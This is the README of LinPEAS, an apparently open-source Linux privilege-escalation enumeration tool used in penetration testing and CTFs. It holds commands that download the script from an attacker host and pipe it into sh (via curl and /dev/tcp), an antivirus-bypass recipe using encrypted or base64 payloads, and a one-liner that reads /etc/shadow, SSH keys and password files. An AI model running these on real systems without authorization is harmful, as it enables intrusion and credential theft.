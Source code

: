 # LinPEAS - Linux Privilege Escalation Awesome Script 

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\* hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**.

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)


## Quick Start
```bash
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

```bash
#Local network
sudo python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh

#Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh
```

```bash
#Output to file
linpeas -a > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt #Read with colors
```

## AV bypass
```bash
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

**Use the parameter `-a` to execute all these checks.**

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD and OpenBSD).

This script doesn't have any dependency.

It uses **/bin/sh** syntax, so can run in anything supporting `sh` (and the binaries and parameters used).

By default, **linpeas won't write anything to disk and won't try to login as any other user using `su`**.

By default linpeas takes around **2 mins** to complete, but It could take from **4 to 5 minutes** to execute all the checks using **-a** parameter *(Recommended option for CTFs)*:
- From less than 1 min to 2 mins to make almost all the checks
- Almost 1 min to search for possible passwords inside all the accesible files of the system
- 20s/user bruteforce with top2000 passwords *(need `-a`)* - Notice that this check is **super noisy**
- 1 min to monitor the processes in order to find very frequent cron jobs *(need `-a`)* - Notice that this check will need to **write** some info inside a file that will be deleted

**Other parameters:**
- **-a** (all checks) - This will **execute also the check of processes during 1 min, will search more possible hashes inside files, and brute-force each user using `su` with the top2000 passwords.**
- **-s** (superfast & stealth) - This will bypass some time consuming checks - **Stealth mode** (Nothing will be written to disk)

This script has **several lists** included inside of it to be able to **color the results** in order to highlight PE vector.

LinPEAS also **exports a new PATH** variable during the execution if common folders aren't present in the original PATH variable. It also **exports and unset** some environmental variables during the execution so no command executed during the session will be saved in the history file (you can avoid this actions using the parameter **-n**).

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/help.png)

## Hosts Discovery and Port Scanning

With LinPEAS you can also **discover hosts automatically** using `fping`, `ping` and/or `nc`, and **scan ports** using `nc`.

LinPEAS will **automatically search for this binaries** in `$PATH` and let you know if any of them is available. In that case you can use LinPEAS to hosts dicovery and/or port scanning.

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/network.png)


## Colors

<details>
<summary>Details</summary>

LinPEAS uses colors to indicate where does each section begin. But **it also uses them the identify potencial misconfigurations**.

The ![](https://placehold.it/15/b32400/000000?text=+) **Red/Yellow** ![](https://placehold.it/15/fff500/000000?text=+) color is used for identifing configurations that lead to PE (99% sure).

The ![](https://placehold.it/15/b32400/000000?text=+) **Red** color is used for identifing suspicious configurations that could lead to PE:
- Possible exploitable kernel versions
- Vulnerable sudo versions
- Identify processes running as root
- Not mounted devices
- Dangerous fstab permissions
- Writable files in interesting directories
- SUID/SGID binaries that have some vulnerable version (it also specifies the vulnerable version)
- SUDO binaries that can be used to escalate privileges in sudo -l (without passwd) (https://gtfobins.github.io/)
- Check /etc/doas.conf
- 127.0.0.1 in netstat
- Known files that could contain passwords
- Capabilities in interesting binaries
- Interesting capabilities of a binary
- Writable folders and wilcards inside info about cron jobs
- Writables folders in PATH
- Groups that could lead to root
- Files that could contains passwords
- Suspicious cronjobs

The ![](https://placehold.it/15/66ff33/000000?text=+) **Green** color is used for:
- Common processes run by root
- Common not interesting devices to mount
- Not dangerous fstab permissions
- SUID/SGID common binaries (the bin was already found in other machines and searchsploit doesn't identify any vulnerable version)
- Common .sh files in path
- Common names of users executing processes
- Common cronjobs

The ![](https://placehold.it/15/0066ff/000000?text=+) **Blue** color is used for:
- Users without shell
- Mounted devices

The ![](https://placehold.it/15/33ccff/000000?text=+) **Light Cyan** color is used for:
- Users with shell

The ![](https://placehold.it/15/bf80ff/000000?text=+) **Light Magenta** color is used for:
- Current username

</details>

## One liner

Here you have an old linpe version script in one line, **just copy and paste it**;)

**The color filtering is not available in the one-liner** (the lists are too big)

This one-liner is deprecated (I am not going to update it more), but it could be useful in some cases so it will remain here:

The default file where all the data is recorded is: */tmp/linPE* (you can change it at the beginning of the script)


```sh
file="/tmp/linPE";RED='\033[0;31m';Y='\033[0;33m';B='\033[0;34m';NC='\033[0m';rm -rf $file;echo "File: $file";echo "[+]Gathering system information...";printf $B"[*] "$RED"BASIC SYSTEM INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Operative system\n"$NC >> $file;(cat /proc/version || uname -a ) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"PATH\n"$NC >> $file;echo $PATH 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Date\n"$NC >> $file;date 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo version\n"$NC >> $file;sudo -V 2>/dev/null| grep "Sudo ver" >> $file;echo "" >> $file;printf $Y"[+] "$RED"selinux enabled?\n"$NC >> $file;sestatus 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Useful software?\n"$NC >> $file;which nc ncat netcat wget curl ping gcc make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Capabilities\n"$NC >> $file;getcap -r / 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Environment\n"$NC >> $file;(set || env) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Top and cleaned proccesses\n"$NC >> $file;ps aux 2>/dev/null | grep -v "\[" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Binary processes permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Services\n"$NC >> $file;(/usr/sbin/service --status-all || /sbin/chkconfig --list || /bin/rc-status) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Different processes executed during 1 min (HTB)\n"$NC >> $file;if [ "`ps -e --format cmd`" ]; then for i in {1..121}; do ps -e --format cmd >> $file.tmp1; sleep 0.5; done; sort $file.tmp1 | uniq | grep -v "\[" | sed '/^.\{500\}./d' >> $file; rm $file.tmp1; fi;echo "" >> $file;printf $Y"[+] "$RED"Proccesses binary permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Scheduled tasks\n"$NC >> $file;crontab -l 2>/dev/null >> $file;ls -al /etc/cron* 2>/dev/null >> $file;cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root /var/spool/anacron 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Any sd* disk in /dev?\n"$NC >> $file;ls /dev 2>/dev/null | grep -i "sd" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Storage information\n"$NC >> $file;df -h 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Unmounted file-system?\n"$NC >> $file;cat /etc/fstab 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Printer?\n"$NC >> $file;lpstat -a 2>/dev/null >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering network information...";printf $B"[*] "$RED"NETWORK INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Hostname, hosts and DNS\n"$NC >> $file;cat /etc/hostname /etc/hosts /etc/resolv.conf 2>/dev/null | grep -v "^#" >> $file;dnsdomainname 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Networks and neightbours\n"$NC >> $file;cat /etc/networks 2>/dev/null >> $file;(ifconfig || ip a) 2>/dev/null >> $file;iptables -L 2>/dev/null >> $file;ip n 2>/dev/null >> $file;route -n 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Ports\n"$NC >> $file;(netstat -punta || ss -t; ss -u) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Can I sniff with tcpdump?\n"$NC >> $file;timeout 1 tcpdump >> $file 2>&1;echo "" >> $file;echo "" >> $file;echo "[+]Gathering users information...";printf $B"[*] "$RED"USERS INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Me\n"$NC >> $file;(id || (whoami && groups)) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l without password\n"$NC >> $file;echo '' | sudo -S -l -k 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Do I have PGP keys?\n"$NC >> $file;gpg --list-keys 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Superusers\n"$NC >> $file;awk -F: '($3 == "0") {print}' /etc/passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Login\n"$NC >> $file;w 2>/dev/null >> $file;last 2>/dev/null | tail >> $file;echo "" >> $file;printf $Y"[+] "$RED"Users with console\n"$NC >> $file;cat /etc/passwd 2>/dev/null | grep "sh$" >> $file;echo "" >> $file;printf $Y"[+] "$RED"All users\n"$NC >> $file;cat /etc/passwd 2>/dev/null | cut -d: -f1 >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering files information...";printf $B"[*] "$RED"INTERESTING FILES\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"SUID\n"$NC >> $file;find / -perm -4000 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"SGID\n"$NC >> $file;find / -perm -g=s -type f 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside \$HOME (limit 20)\n"$NC >> $file;ls -la $HOME 2>/dev/null | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"20 First files of /home\n"$NC >> $file;find /home -type f 2>/dev/null | column -t | grep -v -i "/"$USER | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside .ssh directory?\n"$NC >> $file;find  /home /root -name .ssh 2>/dev/null -exec ls -laR {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"*sa_key* files\n"$NC >> $file;find / -type f -name "*sa_key*" -ls 2>/dev/null -exec ls -l {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"Mails?\n"$NC >> $file;ls -alh /var/mail/ /var/spool/mail/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"NFS exports?\n"$NC >> $file;cat /etc/exports 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Hashes inside /etc/passwd? Readable /etc/shadow or /etc/master.passwd?\n"$NC >> $file;grep -v '^[^:]*:[x]' /etc/passwd 2>/dev/null >> $file;cat /etc/shadow /etc/master.passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Readable /root?\n"$NC >> $file;ls -ahl /root/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Inside docker or lxc?\n"$NC >> $file;dockercontainer=`grep -i docker /proc/self/cgroup  2>/dev/null; find / -name "*dockerenv*" -exec ls -la {} \; 2>/dev/null`;lxccontainer=`grep -qa container=lxc /proc/1/environ 2>/dev/null`;if [ "$dockercontainer" ]; then echo "Looks like we're in a Docker container" >> $file; fi;if [ "$lxccontainer" ]; then echo "Looks like we're in a LXC container" >> $file; fi;echo "" >> $file;printf $Y"[+] "$RED"*_history, profile, bashrc, httpd.conf\n"$NC >> $file;find / -type f \( -name "*_history" -o -name "profile" -o -name "*bashrc" -o -name "httpd.conf" \) -exec ls -l {} \; 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"All hidden files (not in /sys/) (limit 100)\n"$NC >> $file;find / -type f -iname ".*" -ls 2>/dev/null | grep -v "/sys/" | head -n 100 >> $file;echo "" >> $file;printf $Y"[+] "$RED"What inside /tmp, /var/tmp, /var/backups\n"$NC >> $file;ls -a /tmp /var/tmp /var/backups 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Interesting writable Files\n"$NC >> $file;USER=`whoami`;HOME=/home/$USER;find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'| sort | uniq >> $file;for g in `groups`; do find / \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'; done >> $file;echo "" >> $file;printf $Y"[+] "$RED"Web files?(output limited)\n"$NC >> $file;ls -alhR /var/www/ 2>/dev/null | head >> $file;ls -alhR /srv/www/htdocs/ 2>/dev/null | head >> $file;ls -alhR /usr/local/www/apache22/data/ 2>/dev/null | head >> $file;ls -alhR /opt/lampp/htdocs/ 2>/dev/null | head >> $file;echo "" >> $file;printf $Y"[+] "$RED"Backup files?\n"$NC >> $file;find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*back*" -o -name "*bck*" \) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find IPs inside logs\n"$NC >> $file;grep -a -R -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' /var/log/ 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find 'password' or 'passw' string inside /home, /var/www, /var/log, /etc\n"$NC >> $file;grep -lRi "password\|passw" /home /var/www /var/log 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l (you need to puts the password and the result appear in console)\n"$NC >> $file;sudo -l;
```
## What does linpeas look for
<details>
  <summary>Details</summary>
  
- **System Information**
  - [x] SO & kernel version 
  - [x] Sudo version
  - [x] PATH
  - [x] Date
  - [x] System stats
  - [x] Environment vars
  - [x] AppArmor, grsecurity, Execshield, PaX, SElinux, ASLR
  - [x] Printers
  - [x] Dmesg (signature verifications)
  - [x] Container?

- **Devices**
  - [x] sd* in /dev
  - [x] Unmounted filesystems

- **Available Software**
  - [x] Useful software
  - [x] Installed compilers

- **Processes, Cron, Services, Timers & Sockets**
  - [x] Cleaned processes
  - [x] Binary processes permissions
  - [x] Different processes executed during 1 min
  - [x] Cron jobs
  - [x] Services (list, writable .service, writable services binaries, systemd path, service binaries using relative path)
  - [x] All timers (list, writable .timer, writable binaries, relative paths)
  - [x] Sockets
  - [x] D-Bus

- **Network Information**
  - [x] Hostname, hosts & dns
  - [x] Content of /etc/inetd.conf
  - [x] Networks and neighbours
  - [x] Iptables rules
  - [x] Active ports
  - [x] Sniff permissions (tcpdump)

- **Users Information**
  - [x] Info about current user
  - [x] PGP keys
  - [x] `sudo -l` without password
  - [x] doas config file
  - [x] Pkexec policy
  - [x] Try to login using `su` as other users (using as passwords: null pass, username, reverse username, and top2000pwds)
  - [x] List of superusers
  - [x] List of users with console
  - [x] Login info (now, last logons, last time each user)
  - [x] List of all users
  - [x] Clipboard and highlighted text
  - [x] Password policy

- **Software Information**
  - [x] MySQl (Version, user being configured, loging as "root:root","root:toor","root:", user hashes extraction via DB and file, possible backup user configured, credentials in config, cmd exec library)
  - [x] PostgreSQL (Version, try login in "template0" and "template1" as: "postgres:", "psql:", file DBs, Config)
  - [x] Apache (Version)
  - [x] PHP cookies
  - [x] Wordpress (Database credentials)
  - [x] Tomcat (Credentials)
  - [x] Mongo (Version, Credentials)
  - [x] Supervisor (Credentials)
  - [x] Cesi (Credentials)
  - [x] Rsyncd (Credentials)
  - [x] Hostapd (Credentials)
  - [x] Wifi (Credentials)
  - [x] Anaconda-ks (Credentials)
  - [x] VNC (Credentials)
  - [x] LDAP database (Credentials)
  - [x] Open VPN files (Credentials)
  - [x] SSH (private keys, known_hosts, authorized_hosts, authorized_keys, main config parameters in sshd_config, certificates, agents)
  - [X] PAM-SSH (Unexpected "auth" values)
  - [x] Cloud Credentials (credenals-AWS-, credentials.gb-GC-, legacy_credentials-GC-, access_tokens.db-GC-, accessTokens.json-Azure-, azureProfile.json-Azure-)
  - [x] NFS (privilege escalation misconfiguration)
  - [x] Kerberos (configuration & tickets in /tmp)
  - [x] Kibana (credentials)
  - [x] Logstash (Username and possible code execution)
  - [x] Elasticseach (Config info and Version via port 9200)
  - [x] Vault-ssh (Config values, secrets list and .vault-token files)
  - [x] screen and tmux sessions
  - [x] Couchdb
  - [x] Redis
  - [x] Dovecot
  - [x] Mosquitto
  - [x] Neo4j
  - [x] Cloud-Init
  - [x] Erlang Cookie
  - [X] GVM config
  - [x] IPSEC files


- **Generic Interesting Files**
  - [x] SUID & SGID files
  - [x] Capabilities
  - [x] /etc/ld.so.conf.d/
  - [x] Users with capabilities
  - [x] Files with ACLs
  - [x] .sh scripts in PATH
  - [x] scripts in /etc/profile.d
  - [x] Hashes (passwd, group, shadow & master.passwd)
  - [x] Credentials in fstab
  - [x] Try to read root dir
  - [x] Files owned by root inside /home
  - [x] List of readable files belonging to root and not world readable
  - [x] Files modified in the last 5 minutes
  - [x] Log files (logrotten)
  - [x] Others files inside a folder owned by the current user
  - [x] Reduced list of files inside my home and /home
  - [x] Mail applications
  - [x] Mails
  - [x] Backup files
  - [x] DB files
  - [x] Web files
  - [x] Files that can contain passwords (and search for passwords inside *_history files)
  - [x] List of all hidden files
  - [x] List ALL writable files for current user (global, user and groups)
  - [x] Inside /tmp, /var/tmp and /var/backups
  - [x] Password ins config PHP files
  - [x] Get IPs, passwords and emails from logs
  - [x] password or credential files in home
  - [x] "pwd" and "passw" inside files (and get most probable lines)
  - [x] Check for posible variable names containing credentials in files
  - [x] Find "username" in fils
  - [x] Specific hashes (blowfish, joomla&vbulletin, phpbb3, wp, drupal, linuxmd5, apr1md5, sha512crypt, apachesha)
  - [x] Generic hashes MD5, SHA1, SHA256, SHA512
</details>

## Let's improve PEASS together

If you want to **add something** and have **any cool idea** related to this project, please let me know it in the **telegram group https://t.me/peass** or using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)** and we will update the master version.

## Please, if this tool has been useful for you consider to donate

[![Buy me a coffee](https://camo.githubusercontent.com/031fc5a134cdca5ae3460822aba371e63f794233/68747470733a2f2f7777772e6275796d6561636f666665652e636f6d2f6173736574732f696d672f637573746f6d5f696d616765732f6f72616e67655f696d672e706e67)](https://www.buymeacoffee.com/carlospolop)

## Looking for a useful Privilege Escalation Course?

Contact me and ask about the **Privilege Escalation Course** I am preparing for attackers and defenders (**100% technical**).

## TODO

- Add more checks
- Mantain updated the list of vulnerable SUID binaries
- Mantain updated all the blacklists used to color the output
- Support for MacOS

If you want to help with any of this, you can do it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues) or you can submit a pull request**.

If you find any issue, please report it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)**.


**Linpeas** is being **updated** every time I find something that could be useful to escalate privileges.

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

## License

MIT License

By Polop<sup>(TM)</sup>
